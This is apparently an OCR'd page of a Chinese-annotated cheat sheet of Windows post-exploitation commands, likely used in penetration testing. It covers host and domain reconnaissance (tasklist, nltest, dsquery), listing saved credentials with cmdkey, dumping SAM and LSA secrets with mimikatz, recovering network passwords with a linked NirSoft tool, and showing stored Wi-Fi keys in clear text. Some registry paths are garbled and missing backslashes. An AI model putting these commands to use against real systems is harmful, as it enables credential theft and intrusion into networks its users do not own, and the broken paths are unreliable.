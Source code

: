 >
> systeminfo
>
> tasklist /svc
>
> tasklist /S ip /U domain\username /P /V 查看远程计算机 tasklist
>
> net localgroup administrators && whoami 查看当前是不是属于管理组
>
> netstat -ano
>
> nltest /dclist:xx  查看域控
>
> whoami /all 查看 Mandatory Label uac 级别和 sid 号
>
> net sessoin 查看远程连接 session (需要管理权限)
>
> net share   共享目录
>
> cmdkey /l  查看保存登陆凭证
>
> echo %logonserver%  查看登陆域
>
> spn –l administrator spn 记录
>
> set  环境变量
>
> dsquery server - 查找目录中的 AD DC/LDS 实例
>
> dsquery user - 查找目录中的用户
>
> dsquery computer 查询所有计算机名称 windows 2003
>
> dir /s *.exe 查找指定目录下及子目录下没隐藏文件
>
> arp -a

发现远程登录密码等密码 netpass.exe  下载地址：

> https://www.nirsoft.net/utils/network_password_recovery.html获取 window vpn 密码：

> mimikatz.exe privilege::debug token::elevate lsadump::sam lsadump::secrets exit  wifi 密码：

> netsh wlan show profile 	查处 wifi 名
>
> netsh wlan show profile WiFi-name key=clear 获取对应 wifi 的密码ie 代理

> reg query "HKEY_USERSS-1-5-21-1563011143-1171140764-1273336227-500SoftwareMicrosoftWindowsCurrentVersionInternet 
>
> Settings" /v ProxyServer
>
> reg query "HKEY_CURRENT_USERSoftwareMicrosoftWindowsCurrentVersionInternet Settings"pac 代理
